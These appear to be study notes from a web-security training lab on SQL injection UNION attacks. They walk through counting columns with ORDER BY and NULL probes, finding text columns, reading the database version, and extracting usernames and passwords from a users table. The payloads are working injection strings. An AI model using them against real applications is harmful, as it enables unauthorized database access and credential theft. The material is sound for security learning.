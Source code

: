 # SQL injection UNION attacks

For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

```
SELECT product_name, price FROM products UNION SELECT username, age
```

The query above met the requirements:

| string | integer |
| -------| ------- |
| product_name | price | 
| username | age |


This one didn't meet the requirements

```
SELECT product_name, price FROM products UNION SELECT id, username, password
```
## Determining the number of columns required in an SQL injection UNION attack
Method 1:
```
' ORDER BY 1, --
' ORDER BY 1,2 --
... 
' ORDER BY 1,2,3,N -- 
```

Method 2:  

```
' UNION SELECT NULL
' UNION SELECT NULL, NULL
...
' UNION SELECT NULL, NULL, NULL, NULL, NULL
```

Indicator: error message.

# Lab: SQL injection UNION attack, determining the number of columns returned by the query


Steps: 

1. Determine the number of columns by index.
```
category=Lifestyle' ORDER BY 1,2 --
category=Lifestyle' ORDER BY 1,2, --
category=Lifestyle' ORDER BY 1,2,3 --
category=Lifestyle' ORDER BY 1,2,3,4 -- # error
```
2. Fill with null.
```
category=Lifestyle' UNION SELECT NULL,NULL,NULL --
```

# Lab: SQL injection UNION attack, finding a column containing text

Steps:

1. Determine the number of columns 
```
category=Pets' ORDER BY 1,2,3 --
```

2. Determine column data type 
```
category=Pets' UNION SELECT 'inject',null,null --
category=Pets' UNION SELECT null,'inject',null --
category=Pets' UNION SELECT null,'inject','inject' --
```

# Lab: SQL injection UNION attack, retrieving data from other tables 

Suppose that:
- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called `users` with the columns `username` and `password`.

Steps:
1. Determine the number of column 
```
category=Lifestyles' ORDER BY 1,2 --
```

2. Determine the data type in each column 
```
category=Lifestyles' UNION SELECT 'a', NULL --
category=Lifestyles' UNION SELECT 'a', 'NULL' --
```

3. Retrieve data from the table users.
```
category=Lifestyles' UNION select username, password FROM users --
```
4. Login

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

> Note: Different databases use different syntax
> Cheatsheet to examine the database version and which syntax to use
> https://portswigger.net/web-security/sql-injection/cheat-sheet


Lab steps:
1. Determine the number of column 
```
category=Gifts' ORDER BY 1, 2 --
```

2. Determine the data type in each column 
```
category=Gifts' UNION SELECT NULL, 'a' --
```

3. Examining the database version.
```
category=Gifts' UNION SELECT NULL, version() --
```

4. Retrieve multiple values from single column
```
category=Gifts' UNION SELECT NULL, username || ':' || password FROM users --
```

5. Login
